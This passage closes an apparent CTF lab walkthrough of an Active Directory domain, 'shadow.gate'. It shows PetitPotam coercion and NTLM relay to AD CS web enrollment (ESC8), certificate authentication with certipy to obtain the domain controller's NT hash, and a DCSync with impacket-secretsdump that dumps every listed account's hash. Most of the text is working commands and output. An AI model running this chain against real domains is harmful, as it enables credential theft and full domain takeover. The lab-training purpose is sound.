[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

```

To exploit AD CS ESC8 (Active Directory Certificate Services Web Enrollment over HTTP), we leveraged PetitPotam to coerce the target Domain Controller into authenticating against our Kali attack machine. Because AD CS Web Enrollment lacked proper signing and encryption protections, we used an NTLM relay tool (`ntlmrelayx`) to intercept this incoming computer account authentication and instantly forward it to the Certificate Authority's web interface. The CA, trusting the relayed authentication, automatically issued a high-privilege Domain Controller certificate (`.pfx`), which can subsequently be used for certificate-based authentication (PKINIT) to achieve total domain compromise.

```bash
[*] (SMB): Received connection from 10.1.229.122, attacking target http://10.1.229.122
[*] HTTP server returned error code 200, treating as a successful login
[*] (SMB): Authenticating connection from /@10.1.229.122 against http://10.1.229.122 SUCCEED [1]
[*] http:///@10.1.229.122 [1] -> Using template name: DomainController
[*] http:///@10.1.229.122 [1] -> Generating CSR...
[*] http:///@10.1.229.122 [1] -> CSR generated!
[*] http:///@10.1.229.122 [1] -> Getting certificate...
[*] (SMB): Received connection from 10.1.229.122, attacking target http://10.1.229.122
[*] http:///@10.1.229.122 [1] -> GOT CERTIFICATE! ID 5
[*] http:///@10.1.229.122 [1] -> Writing PKCS 12 certificate to ./DC01.shadow.gate.pfx #Certificate
[*] http:///@10.1.229.122 [1] -> Certificate successfully written to file
[*] HTTP server returned error code 200, treating as a successful login
[*] (SMB): Authenticating connection from /@10.1.229.122 against http://10.1.229.122 SUCCEED [2]
[*] http:///@10.1.229.122 [2] -> Skipping user  since attack was already performed

```

And here we got the certificate,now we just need to authenticate using the certificate.

## Certificate Authentication

```bash
┌──(adcs-env)(kali㉿oldestdream)-[~/shadow]
└─$ ~/adcs-env/bin/python3 -m certipy.entry auth -pfx DC01.shadow.gate.pfx -dc-ip 10.1.229.122

Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*] SAN DNS Host Name: 'DC01.shadow.gate'
[*] Security Extension SID: 'S-1-5-21-243493930-1113464705-3012771586-1000'
[*] Using principal: 'dc01$@shadow.gate'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'dc01.ccache'
[*] Wrote credential cache to 'dc01.ccache'
[*] Trying to retrieve NT hash for 'dc01$'
[*] Got hash for 'dc01$@shadow.gate': aad3b435b51404eeaad3b435b51404ee:35413ba233a9202dba7faa1a8dc57ebe
```

Now,lets use this `dc01` hash to dump the hashes of the systemwide users.

## Domain Compromise (DCSync)

We’re gonna use the computer account (`dc01$`) along with its extracted NTLM hash to abuse directory replication rights to pull specific hashes (like the `KRBTGT` or all user hashes) straight from the Active Directory database without ever needing to log onto the box.

I’m gonna use the tool `impacket-secretsdump` to dump the `SAM` hashes as it comes built-in with kali linux.

```bash
┌──(kali㉿oldestdream)-[~/Tools]
└─$ impacket-secretsdump shadow.gate/'dc01$'@10.1.229.122 -just-dc-ntlm -hashes "aad3b435b51404eeaad3b435b51404ee:35413b
a233a9202dba7faa1a8dc57ebe" -dc-ip 10.1.229.122

Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets

Administrator:500:aad3b435b51404eeaad3b435b51404ee:4366ec0f86e29be2a4a5e87a1ba922ec:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b5509cbfe52e94940c0ec99b21e09802:::
shadow.gate\ATHENA:1103:aad3b435b51404eeaad3b435b51404ee:3215f4c7c852647c88694ab0b57daaba:::
shadow.gate\mbrownlee:1104:aad3b435b51404eeaad3b435b51404ee:6f16868319543175e7f3e6d4eea9adfb:::
shadow.gate\bbrown:1109:aad3b435b51404eeaad3b435b51404ee:259745cb123a52aa2e693aaacca2db52:::
shadow.gate\jtrueblood:1110:aad3b435b51404eeaad3b435b51404ee:27e133a345b980d24e3a60f169f2cb7e:::
shadow.gate\jsmith:1112:aad3b435b51404eeaad3b435b51404ee:be0b6d125a6645747d91d30ed3bef98f:::
shadow.gate\clocke:1113:aad3b435b51404eeaad3b435b51404ee:ff506444e2c59b0241812e8e17b0f05e:::
shadow.gate\tclarke:1114:aad3b435b51404eeaad3b435b51404ee:9290a555713c7db0cf7fbf0ac28c1100:::
shadow.gate\jbradford:1115:aad3b435b51404eeaad3b435b51404ee:f5c86043de2a116c6458f3de9aad89de:::
shadow.gate\amoss:1116:aad3b435b51404eeaad3b435b51404ee:381480af4a988ad46758c2f79ee64090:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:35413ba233a9202dba7faa1a8dc57ebe:::
```

# Final Shell



And congratulations🎉🎉 to us ,we have officially solved the lab.

<aside>
💡

Thanks for reading through this walkthrough! If you have any questions, feedback, or suggestions for alternative exploitation paths, feel free to reach out.

- 🔗 **LinkedIn:** [linkedin.com/in/santhosh](https://www.google.com/search?q=https://linkedin.com/in/santhoshga&utm_source=gemini)
- 🐙 **GitHub:** [github.com/gasanthosh](https://www.google.com/search?q=https://github.com/gasanthosh&utm_source=gemini)
- 🛡️ **TryHackMe:** [tryhackme.com/p/gasanthosh](https://www.google.com/search?q=https://tryhackme.com/p/gasanthosh&utm_source=gemini)
</aside>
